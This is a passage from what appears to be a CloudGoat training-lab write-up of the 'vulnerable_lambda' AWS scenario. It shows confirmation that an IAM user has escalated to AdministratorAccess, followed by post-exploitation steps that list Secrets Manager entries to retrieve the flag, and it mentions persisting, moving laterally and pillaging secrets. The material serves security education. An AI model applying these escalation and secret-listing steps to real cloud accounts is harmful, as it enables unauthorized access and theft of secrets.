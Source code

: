 The contents of the JSON response offer a bit more insight:  

```bash
> cat response.json                                                             
"All managed policies were applied as expected."
```

We can verify whether or not our attempt was successful by checking the `bilbo` 
IAM user for additional policies (beyond the inline user policy created 
alongside the user):  

```bash
aws iam list-attached-user-policies --user-name cg-bilbo-vulnerable_lambda_cgidgfmjd1k7yo
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

## Post-Exploitation

Now that we have full admin access, we can persist, move laterally, pillage 
secrets and source code, basically anything. Listing secrets in Secrets Manager 
will retrieve the scenario's flag.

```bash
aws secretsmanager list-secrets
```

```json
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:REDACTED:secret:vulnerable_lambda_cgid774pjcgkoe-final_flag-quMGQi",
            "Name": "vulnerable_lambda_cgid774pjcgkoe-final_flag",
            "LastChangedDate": "2023-02-19T14:11:26.843000-05:00",
            "LastAccessedDate": "2023-02-18T19:00:00-05:00",
            "Tags": [
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Name",
                    "Value": "cg-vulnerable_lambda_cgid774pjcgkoe"
                },
                {
                    "Key": "Scenario",
                    "Value": "vulnerable-lambda"
                }
            ],
            "SecretVersionsToStages": {
                "183B5F61-1B84-4465-BDCD-13CE9953ECC2": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2023-02-19T14:11:26.623000-05:00"
        }
    ]
}
```
